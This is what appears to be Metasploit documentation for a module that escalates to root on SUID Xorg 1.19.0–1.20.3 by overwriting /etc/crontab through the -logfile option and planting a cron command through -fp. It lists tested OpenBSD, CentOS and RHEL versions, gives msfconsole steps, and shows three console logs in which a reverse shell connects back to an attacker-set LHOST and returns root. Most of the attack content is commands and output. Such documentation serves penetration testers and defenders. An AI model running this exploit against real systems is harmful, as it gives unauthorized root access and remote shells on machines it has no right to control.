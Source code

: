 ## Description

  This module attempts to gain root privileges using Xorg X11 server versions 1.19.0 < 1.20.3 set as SUID.  A permission check flaw exists for -modulepath and -logfile options when starting Xorg.  This flaw allows users to write over existing files on the system.  This exploit backs up crontab and then uses -logfile to overwrite it.  A command to be run is set for the Font Path argument -fp which will be logged and ran by cron.


## Vulnerable Application

  Xorg (commonly referred as simply X) is the most popular display server among Linux users. Its ubiquity has led to making it an ever-present requisite for GUI applications, resulting in massive adoption from most distributions.

  Xorg is more restrictive to exploit under CentOS / RHEL.  The user must have console lock and SeLinux may interfere.  If Selinux is enforcing crontabs context will be changed on exploit and you will be unable to clean it.

  This module has been tested successfully on:

  * OpenBSD 6.3
  * OpenBSD 6.4
  * CentOS 7.4.1708 x86_64
  * CentOS 7.5.1084 x86_64
  * Red Hat Enterprise Linux 7.5 x86_64


## Verification Steps

  On CentOS/RHEL your session must have console lock.  To get a console lock you can login locally with a user.

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/multi/local/xorg_x11_suid_server`
  4. Do: Set a payload/target or use default(cmd/unix/reverse_openssl)
  5. Do: `set SESSION [SESSION]`
  6. Do: `set LHOST [LHOST]`
  7. Do: `run`
  8. You should get a new *root* session


## Advanced Options

  **Xdisplay**

  Display to use for Xorg (default: `:1`)

  **WritableDir**

  A writable directory file system path (default: `/tmp`)

  **ConsoleLock**
   
  Will check for console lock under linux (default: `true`)


## Scenarios

### OpenBSD

```
msf5 > use exploit/multi/local/xorg_x11_suid_server
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > set lhost 172.30.0.2
lhost => 172.30.0.2
msf5 exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse double SSL handler on 172.30.0.2:4444
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t2XWfcWkZHevLPS8;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t2XWfcWkZHevLPS8\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.30.0.2:4444 -> 172.30.0.99:41253) at 2018-11-12 15:06:39 -0600
[+] Returning session after cleaning
[+] Deleted /tmp/.session-odRjfx

id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```

### CentOS 7.4.1708 x86_64

```
msf5 > use exploit/multi/local/xorg_x11_suid_server
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[*] Started reverse double SSL handler on 172.16.191.188:4444 
[*] Running additional check for Linux
[+] Console lock for user
[+] Selinux is not an issue
[+] Xorg path found at /usr/bin/Xorg
[+] Xorg binary /usr/bin/Xorg is SUID
[+] Xorg version 1.19.3 is vulnerable
[!] Xorg in process list
[!] Could not get version or Xorg process possibly running, may fail
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zk0jobDMxFdBxLBU;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "zk0jobDMxFdBxLBU\n"
[*] Matching...
[*] B is input...
[*] Command shell session 7 opened (172.16.191.188:4444 -> 172.16.191.141:46318) at 2018-11-24 21:31:04 -0500
[*] Waiting on cron to run
[+] Returning session after cleaning
[+] Deleted /tmp/.session-Tafw0iW0r8

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos-7-1708.localdomain 3.10.0-693.el7.x86_64 #1 SMP Tue Aug 22 21:09:27 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

### Red Hat Enterprise Linux 7.5 x86_64

```
msf5 > use exploit/multi/local/xorg_x11_suid_server
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[*] Started reverse double SSL handler on 172.16.191.165:4444 
[*] Running additional check for Linux
[+] Console lock for user
[+] Selinux is not an issue
[+] Xorg path found at /usr/bin/Xorg
[+] Xorg binary /usr/bin/Xorg is SUID
[+] Xorg version 1.19.5 is vulnerable
[!] Xorg in process list
[!] Could not get version or Xorg process possibly running, may fail
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo EEdPp66R4es6U3WF;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[+] /etc/crontab overwrite successful. Waiting for job to run (may take a minute)...
[*] Reading from socket B
[*] B: "EEdPp66R4es6U3WF\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.228:44978) at 2019-04-21 06:29:04 -0400
[+] Returning session after cleaning
[+] Deleted /tmp/.session-aqxyug0fH

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux red-hat-7-5-x64.local 3.10.0-862.el7.x86_64 #1 SMP Wed Mar 21 18:14:51 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
cat /etc/redhat-release
Red Hat Enterprise Linux Server release 7.5 (Maipo)
```

